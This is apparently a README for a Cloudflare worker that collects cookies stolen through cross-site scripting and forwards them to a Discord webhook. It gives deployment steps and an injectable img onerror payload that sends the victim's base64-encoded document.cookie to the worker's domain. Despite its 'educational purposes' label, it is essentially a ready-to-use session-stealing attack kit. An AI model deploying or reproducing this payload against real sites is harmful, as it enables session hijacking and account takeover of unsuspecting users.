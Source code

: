 For educational 🧑‍🎓 purposes.

Cloudflare worker to get cookies via xss vulnerability.

Setup:

1. `npm install`
2. `npm run setup` and paste [Discord webhook url](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
3. `npm run deploy`
4. Inject xss code snippet like
```html
<img src="x" onerror="this.src='https://worker-domain/?cookie=' +btoa(document.cookie);this.removeAttribute('onerror');" />
```